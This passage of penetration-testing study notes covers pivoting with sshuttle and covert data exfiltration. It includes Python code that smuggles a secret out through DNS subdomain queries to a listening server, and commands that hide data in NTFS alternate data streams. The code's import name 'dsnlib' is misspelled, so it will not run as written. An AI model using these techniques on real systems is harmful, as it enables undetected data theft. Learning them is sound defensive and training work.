   - `strings.exe` and `findstr.exe` : search text within files
- **Sshuttle** : transparent proxy server acting as a poor man's VPN, used to route traffic to a target network
  - only for Unix-like operating systems
  - use SSH to forward traffic through a remote server
  - support DNS forwarding
  - does not require admin privilege on the remote server
  - to route all traffic through a remote server : `sshuttle -r <USERNAME>@<REMOTE_SERVER_IP> 0.0.0.0/0`
  - once sshuttle is setup, we can access the remote server's network as if it was local


## Exfiltration


- **Covert channels** : methods to transfer information in a way that is difficult to detect
  - Steganography : art of hiding information within other public information
    - images, photos, audio files, video files, network packets...
  - ICMP : hide data in the payload of ECHO requests and replies
  - HTTPS : hide data within web traffic with SSL/TLS encryption
  - DNS : hide data in the subdomain of a DNS query
```python
from dsnlib import DNSRecord
import socket

# client exfiltrating data : send a UDP DNS query to the DNS server
dns_server_ip = '10.10.10.1'
secret = 'very_secret_data'
domain = f'{secret}.example.com'
query = DNSRecord.question(domain, qtype='A')
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(query.pack(), (dns_server_ip, 53))

# server receiving data : receive the UDP DNS request, extract the secret, and respond to the request
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ("10.10.10.1", 53)
sock.bind(server_address)
while True:
    data, addr = sock.recvfrom(512)   # up to 512 bytes
    try:
        dns_request = DNSRecord.parse(data)
        secret = dns_request.q.qname.label[0].decode('utf-8')
        print('Exfiltrated:', secret)
        dns_response = dns_request.reply()
        dns_response.add_answer(dns_request.q)
        sock.sendto(dns_response.pack(), addr)
    except Exception as e:
        print(f'Failed to receive DNS querty: {e}')
```


- **Alternate Data Streams (ADS)**
  - ADS is a feature of the NTFS file system allowing more than one data stream to be associated with a file name
  - ADS allows data to be hidden in a file without changing its content or its file size
  - ADS was developed to provide compatibility with HFS (Apple Hierarchical File System)
  - ADS can be used to exfiltrate data inside the alternate stream of a file
  - Hide data in a hidden stream : `echo very_important_secret > info.txt:hiddenStream`
  - Read data hidden in the stream : `more < info.txt:hiddenStream`
  - ADS-based exfiltration is difficult to detect as alternate data streams are not checked by traditional inspection tools
